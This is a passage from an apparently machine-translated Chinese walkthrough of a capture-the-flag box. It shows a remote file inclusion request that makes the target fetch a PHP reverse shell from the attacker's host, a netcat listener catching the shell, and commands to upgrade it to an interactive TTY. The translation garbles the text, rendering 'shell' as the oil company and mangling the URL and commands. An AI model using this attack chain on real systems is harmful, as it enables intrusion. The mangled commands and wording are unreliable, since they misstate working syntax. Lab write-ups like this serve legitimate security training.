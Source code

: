 我们现在将精确地遵循漏洞利用指令，并获得一个 shell。手指交叉。

![](img/ae462f30214a068d334603256d21d2a3.png)

> 导航到 http://<target_ip>/xxxxxxxxxxxxxx/administrator/alerts/alert configfield . PHP？URL config =[http://<HOST _ IP>:PORT/PHP-reverse-shell . PHP](http://10.10.106.250:8000/php-reverse-shell.php)</target_ip>

检查 netcat 监听器。

![](img/b52c22ef9828199d0a1a0f087af59b56.png)

太棒了。！
我们成功获得了壳牌。
但是壳不是稳定的壳。
我们如何获得一个稳定的外壳？让我给你带路。

![](img/2c18b3cf92b2a1f10f95971fead7cf21.png)

> $ python-c ' import pty；pty . spawn("/bin/bash ")'
> Ctrl+Z
> stty raw-echo
> fg
> export TERM = xterm
